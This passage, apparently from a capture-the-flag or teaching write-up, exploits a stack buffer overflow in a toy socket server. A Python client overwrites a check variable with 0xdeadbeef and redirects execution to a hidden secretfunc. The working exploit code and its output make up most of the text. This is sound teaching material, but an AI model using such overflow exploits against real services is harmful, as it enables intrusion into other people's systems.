       [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 8 bytes
      [+] (Client 4) Sent us 'ABCDEFGH'
      [+] val=48474645

Can see the buffer has bled into the unsigned int `val`.

    unsigned int val;
    char buf[4] = {0};
    printf("  [+] val=%x\n", val);
    if (val == 0xdeadbeef) {

With the 8 byte overflow were able to set `val` to the value of `0x48474645`.

    Char  Dec  Oct  Hex
    A      65 0101 0x41
    B      66 0102 0x42
    C      67 0103 0x43
    D      68 0104 0x44
    E      69 0105 0x45
    F      70 0106 0x46
    G      71 0107 0x47
    H      72 0110 0x48
    I      73 0111 0x49

This looks to be the `EFGH` characters in the 8 byte overflow python client. That means immediately after the first 4 bytes, the unsigned integer is loaded up with the very next 4 bytes (given it can hold 32 bits!). Given this we just need to pack the `0xdeadbeef` bits in straight after the first 4 bytes of the buffer, or just after `ABCD`. After that can proceed to flood the buffer with the address location of `secretfunc` in the hope of overflowing that address into the instruction pointer (`EIP`).

Python's `struct.pack` is brilliant here, as it will pack the bits within the bytes in the specified order, in this case [little endian](https://en.wikipedia.org/wiki/Endianness#Little-endian) ordering indicated with the `<I` style notation.

```python
import socket
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
buf="ABCD"
buf += struct.pack('<I', 0xdeadbeef)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
s.send(buf)
```

Running this the updated python client, can see the canary is now satisfied, and control flow of the program is taken over as it proceeds to run `secretfunc` (outputs `You win!!!`).

    [+] Awaiting clients...
    [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 52 bytes
      [+] (Client 4) Sent us 'ABCDﾭރ����������'
      [+] val=deadbeef
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	Segmentation fault
